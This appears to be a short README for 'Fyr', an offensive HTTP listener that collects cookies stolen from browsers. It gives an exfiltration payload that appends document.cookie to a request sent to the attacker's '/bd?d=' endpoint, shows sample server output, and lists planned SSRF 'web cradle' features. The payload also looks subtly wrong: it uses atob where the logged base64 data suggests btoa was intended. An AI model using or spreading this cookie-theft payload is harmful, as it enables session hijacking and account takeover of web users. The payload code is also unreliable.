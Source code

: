 # Fyr


## Features

- Cookie extraction at `/` or `/bd` with parameter `?d=` e.g. `"URL/bd?d="+atob(document.cookie)`

Usage:

```
       ▄████████ ▄██   ▄      ▄████████
      ███    ███ ███   ██▄   ███    ███
      ███    █▀  ███▄▄▄███   ███    ███
     ▄███▄▄▄     ▀▀▀▀▀▀███  ▄███▄▄▄▄██▀
    ▀▀███▀▀▀     ▄██   ███ ▀▀███▀▀▀▀▀
      ███        ███   ███ ▀███████████
      ███        ███   ███   ███    ███
      ███         ▀█████▀    ███    ███
                             ███    ███

Launching HTTPServer @ http://localhost:8888
127.0.0.1 - - [18/Sep/2025 19:04:26] "GET /?d=SSBIRUNLSU4nIExPVkUgRllS HTTP/1.1" 200 -
[*] Method: GET
[*] Path: /?d=SSBIRUNLSU4nIExPVkUgRllS
[*] Headers:
  Host: localhost:8888
  User-Agent: curl/8.16.0
  Accept: */*
[*] Content:
I HECKIN' LOVE FYR
```

## WIP

- SSRF (web cradle and stuff)
- `/tools` dir
- Logging (Files etc.)
